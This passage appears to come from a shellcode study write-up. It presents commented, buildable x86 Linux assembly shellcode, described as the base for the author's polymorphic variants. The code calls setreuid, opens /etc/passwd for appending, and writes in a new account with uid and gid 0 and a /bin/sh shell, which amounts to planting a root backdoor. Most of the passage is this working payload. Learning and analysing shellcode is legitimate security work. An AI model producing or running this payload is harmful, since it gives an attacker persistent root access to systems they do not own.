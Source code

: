 I have cleaned and commented the code in the form of a `.nasm` file that can be built so I can modify and test my polymorphic code.

```x86asm
global _start

section .text
_start:
    xor ecx,ecx
    mov ebx,ecx
    push byte +0x46
    pop eax             ; 0x46 from stack
        ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 70$"
        ; setreuid()
        ; int setreuid(uid_t ruid, uid_t euid);
    int 0x80




    push byte +0x5
    pop eax             ; 0x5 from stack
        ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 5$"
        ; open ()
        ; int open(const char *pathname, int flags);
    xor ecx,ecx
    push ecx
    push dword 0x64777373   ; (ascii) dwss
    push dword 0x61702f2f   ; (ascii) ap//
    push dword 0x6374652f   ; (ascii) cte/
    mov ebx,esp             ; /etc//passwd
    inc ecx                 ; ecx = 1
    mov ch,0x4              ; ecx = 0x401 (O_WRONLY|O_APPEND)
    int 0x80                ; open("/etc//passwd", 0x0401)



    xchg eax,ebx            ; ebx = ptr to file
    call _label1               ; call label1 

    db "username:AzydwfoigBTrs:0:0::/:/bin/sh", 0x0

_label1:             
    ; rebuilt with `echo -n "`python2 -c 'print "\x90"*81'`\x59\x8b\x51\xfc\x61\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -p intel -`
    pop ecx             ; ptr to 0x2b
    mov edx,[ecx-0x4]   ; 0x26 = 38 (uses opcode from E826 at offset 0x26)
    push byte +0x4      ; 
    pop eax             ; write()
    int 0x80            ; ssize_t write(int fd, const void *buf, size_t count);



    push byte +0x1      
    pop eax             
    int 0x80            ; exit()

```
